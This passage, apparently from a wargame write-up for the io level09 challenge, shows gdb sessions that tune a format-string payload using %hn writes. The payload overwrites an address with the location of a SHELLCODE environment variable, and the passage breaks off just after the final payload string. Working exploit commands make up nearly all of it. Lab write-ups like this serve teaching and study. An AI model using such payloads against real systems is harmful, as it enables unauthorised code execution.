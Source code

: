     level9@io:/tmp/aa$ ./getenv SHELLCODE
    SHELLCODE => 0xbffffdd0

And let's do the math all over again:

    level9@io:/levels$ gdb ./level09
    (gdb) b *0x080483ee
    Breakpoint 1 at 0x80483ee

    (gdb) r $(echo -e '\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%8d%hn%8d%hn')
    Starting program: /levels/level09 $(echo -e '\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%8d%hn%8d%hn')
    Breakpoint 1, 0x080483ee in main ()

    (gdb) x 0xbffffc3c
    0xbffffc3c:     0x002d0023

    (gdb) p 0xfdd0 - 0x23 + 0x8
    $2 = 64949

    (gdb) r $(echo -e '\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%64949d%hn%8d%hn')
    Starting program: /levels/level09 $(echo -e '\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%64949d%hn%8d%hn')
    Breakpoint 1, 0x080483ee in main ()

    (gdb) x 0xbffffc3c
    0xbffffc3c:     0xfddafdd0

    (gdb) p 0x1bfff - 0xfdda
    $4 = 49701

    (gdb) p 0x1bfff - 0xfdda + 0x10
    $5 = 49717

    (gdb) r $(echo -e '\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%64949d%hn%49717d%hn')
    Starting program: /levels/level09 $(echo -e '\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%64949d%hn%49717d%hn')
    Breakpoint 1, 0x080483ee in main ()

    (gdb) x 0xbffffc3c
    0xbffffc3c:     0xc005fdd0

    (gdb) r $(echo -e '\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%64949d%hn%49707d%hn')
    Starting program: /levels/level09 $(echo -e '\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%64949d%hn%49707d%hn')
    Breakpoint 1, 0x080483ee in main ()
    (gdb) x 0xbffffc3c
    0xbffffc3c:     0xbffbfdd0

    (gdb) r $(echo -e '\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%64949d%hn%49711d%hn')
    Starting program: /levels/level09 $(echo -e '\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%64949d%hn%49711d%hn')
    Breakpoint 1, 0x080483ee in main ()

    (gdb) x 0xbffffc3c
    0xbffffc3c:     0xbffffdd0

After a bit of tweaking, here's the final payload: '\x3c\xfc\xff\xbfXXXX\x3e\xfc\xff\xbf%p%p%64949d%hn%49711d%hn' (had to change the address again:
